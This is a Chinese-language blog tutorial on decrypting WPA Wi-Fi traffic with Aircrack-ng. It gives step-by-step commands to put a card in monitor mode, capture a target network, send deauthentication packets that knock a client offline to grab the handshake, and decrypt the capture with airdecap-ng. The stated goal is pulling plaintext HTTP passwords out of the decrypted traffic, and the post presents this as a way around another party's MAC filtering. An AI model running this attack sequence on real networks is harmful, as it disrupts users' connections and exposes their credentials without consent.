 ```yaml
---
title: WPA解密
date: 2020-04-25 19:06:01
categories: 无线渗透
tags: Aircrack-ng套件
---
```


### 前言

> 此方法用于解密wifi下的802.11*数据包，可截获HTTP下的明文密码等其他信息，但HTTPS下的数据包仍无法解密，此方法成功必须满足以下两个条件。
> 1. 先破解目标wifi密码或已经知道目标密码
> 2. 抓取到握手包

<!--more-->

开启网卡监听模式

`airmon-ng start wlan0`

扫描附近热点

`airodump-ng wlan0mon`

![](http://cdn.laohuan.art/Snipaste_2019-09-26_19-38-20.png)

只抓取ESSID为test的数据包

`airodump-ng -c 12 --bssid B4:C4:FC:65:77:50 wlan0mon -w file.cap`

* -c 指定信道
* --w 指定保存的文件名（可不加后缀.cap，会自动生成）

使用 <kbd> Ctrl</kbd>+<kbd> c</kbd>  停止抓取,用wireshark打开数据包

![](http://cdn.laohuan.art/Snipaste_2019-09-26_19-51-53-1024x342.png)

发现都是802.11加密得数据包

### 解密数据包

1. 对test继续进行抓包

`airodump-ng -c 3 --bssid B4:C4:FC:65:77:50 wlan0mon -w test`

由于需要抓取握手包，我们发送deauth包让对方热点下的设备断开重连

`aireplay-ng  -0 15 -a B4:C4:FC:65:77:50 -c FC:64:BA:EB:78:B5 wlan0mon`

![](http://cdn.laohuan.art/Snipaste_2019-09-27_20-25-48.png)

*  -0 指定deauth包的数量
* -a 指定bssid
* -c 指定客户端的mac地址（抓包时的STATION）

2. 当出现红框内的 WPA handshake 表明抓取到握手包

![](http://cdn.laohuan.art/Snipaste_2019-09-27_20-27-21.png)

数分钟后，<Kbd>ctrl</kbd>+<kbd>c</kbd>停止抓包

在当前目录下生成一个test-01.cap的文件

![](http://cdn.laohuan.art/Snipaste_2019-09-27_20-33-31.png)

3. 解密这个数据包文件

`airdecap-ng -e test -b B4:C4:FC:65:77:50 -p 88888888 test-01.cap`

* 参数 -e 指定essid(wifi名字)
* -b 指定bssid
* -p 指定wifi密码

![](http://cdn.laohuan.art/Snipaste_2019-09-27_20-36-47.png)

红框内即为解密WPA包的数量

接下来会在当前目录生成一个已解密的dec.cap文件

![](http://cdn.laohuan.art/Snipaste_2019-09-27_20-37-59.png)

4. 用wireshark打开此数据包，已经可以看到具体协议的数据包，起初这些数据包是被802.11协议加密的

![](http://cdn.laohuan.art/Snipaste_2019-09-27_20-41-24-1024x297.png)

如果有明文传送的账号密码，在TCP流里很容易找到

![](http://cdn.laohuan.art/Snipaste_2019-09-27_20-44-41.png)

### 后话

当知道或已经破解了对方的wifi密码，可连接此wifi热点后再进行抓包，这时抓到的数据包就已经是解密的了（802.11协议的解密），不必再向本文如此大动干戈。当对方热点主人设置了指点mac地址的设备才可以连接wifi时，你知道对方密码也连接不上wifi时，便可参考此方法。